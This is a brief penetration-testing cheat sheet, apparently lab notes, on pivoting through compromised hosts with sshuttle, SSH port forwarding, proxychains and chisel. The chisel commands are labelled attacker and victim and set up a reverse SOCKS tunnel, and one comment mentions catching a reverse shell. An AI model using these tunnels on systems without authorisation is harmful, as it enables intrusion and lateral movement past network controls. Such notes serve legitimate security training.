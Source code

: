 ## SSHuttle

```bash
sshuttle -e "ssh -i /home/parrot/ILFREIGHT/root_id_rsa" -vr root@inlanefreight.local 172.16.0.0/16
```
## SSH
Sshuttle is cool but way too often sucks (like with nmap), the best way to make a simple pivot is :
```bash
ssh -D 9050 pivot.host.local

# Then add the following line at the end of your proxychains config
socks4  127.0.0.1 9050

# Then you can simply do 
proxychains4 -q your_command_here
# To forward it to the pivot host \o/
```
If you prefer forwarding a single port *on the pivot host* to local host, use `-R`
```bash
# Remote port 1521 accessible in port 10521 from everywhere, useful to access services restricted to local connection on the pivot host, like a database for example
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 

# Local port 1521 accessible in port 10521 from everywhere, useful to catch a reverse shell 
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 
```

If you want to forward a single local port to a host past the pivoting server, use -L
```bash
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_pivot>
```

## Chisel
```sh
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
```
And now you can use proxychains with port 1080 (default) o/
